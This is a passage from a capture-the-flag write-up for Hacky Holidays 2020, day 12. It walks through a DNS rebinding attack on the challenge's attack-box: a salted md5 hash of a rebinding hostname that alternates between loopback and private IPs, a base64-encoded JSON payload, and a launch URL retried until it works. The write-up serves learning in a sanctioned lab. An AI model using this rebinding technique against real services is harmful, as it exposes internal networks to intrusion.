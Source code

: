 12. Now we can follow the same steps, using the **`mrgrinch463`** as salt and IP address (in this case it is **`7f000001.c0a80001.rbndr.us`**), I converted this value into md5 hash.
    
    ![IMAGE](/assets/img/posts/hackyholiday2020/day12/day-12-11.png)

13. Now converted the following into base64 encoded data:
   
    ```
    {"target":"7f000001.c0a80001.rbndr.us", "hash":"de9d82d4ae9a61660701e7e1844ea643"}
    ```

    ![IMAGE](/assets/img/posts/hackyholiday2020/day12/day-12-12.png)


14. Put that base64 encoded payload in the `/launch?payload=` endpoint as:
   
    ```
        https://hackyholidays.h1ctf.com/attack-box/launch?payload=eyJ0YXJnZXQiOiI3ZjAwMDAwMS5jMGE4MDAwMS5yYm5kci51cyIsICJoYXNoIjoiZGU5ZDgyZDRhZTlhNjE2NjA3MDFlN2UxODQ0ZWE2NDMifQ==
    ```

    ![IMAGE](/assets/img/posts/hackyholiday2020/day12/day-12-13.png)

    Note that we did not get what we wanted at first, this is because the switching of IPs is quite random, So I had to visit the above url for 4-5 times to get it to work.
